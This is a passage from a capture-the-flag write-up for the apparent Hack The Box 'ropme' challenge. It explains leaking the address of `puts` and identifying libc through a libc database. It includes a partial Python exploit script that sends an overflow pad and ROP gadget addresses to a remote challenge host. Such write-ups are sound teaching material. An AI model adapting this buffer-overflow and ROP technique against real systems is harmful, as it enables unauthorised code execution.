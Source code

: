 Sounds like a lot of work right? Well, luckily for us, we can use a tool that will do the computation for us. Introducing: [libc database][4].

So, we could just plug the virtual address we see for `puts` and libc database will suggest what versions are possible that will yield such virtual address.

![libc_db_input_1](./ropme/ld_1.png)

Then we see the suggestions:

![libc_db_input_2](./ropme/ld_2.png)

Naturally, the more addresses we provide, the amount of possible versions shrinks.

So, we have everything we need to know, we just have to start working! let's prepare our code to have the remote machine leak the address of `puts`, and let's see if that would be enough for us to learn the libc version of it. If that will not be enough - we might have to also leak `fflush` and `fgets`.

Let's put everything together to one script leaking the `puts` location: (The changes so far are only in the `remote()` function)

```Python
import struct
import socket
import binascii

def ptr(n):
    return struct.pack("Q", n)

def compute_libc_base_from_puts(puts_va):
    # this is true for libc 2.27
    # this is true for my local machine only
    puts_offset_in_libc = 0x0809c0

    return puts_va - puts_offset_in_libc

def remote(data):
    remote_address = (("docker.hackthebox.eu",35034))
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    print "connecting to ", remote_address
    conn.connect(remote_address)

    # server's initial message: "ROP ME outside..."
    print conn.recv(1024)

    print "connected. sending data"
    conn.send(bytes(data + "\n"))

    ans = conn.recv(1024)
    print "server responded:"
    print ans
    print binascii.hexlify(ans)


PAD = "A" * 72


gadget_pop_rdi_ret = ptr(0x4006d3)
puts_plt = ptr(0x4004e0)
fflush_plt = ptr(0x400510)

puts_got = ptr(0x601018)
NULL = ptr(0x0)

```

[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me
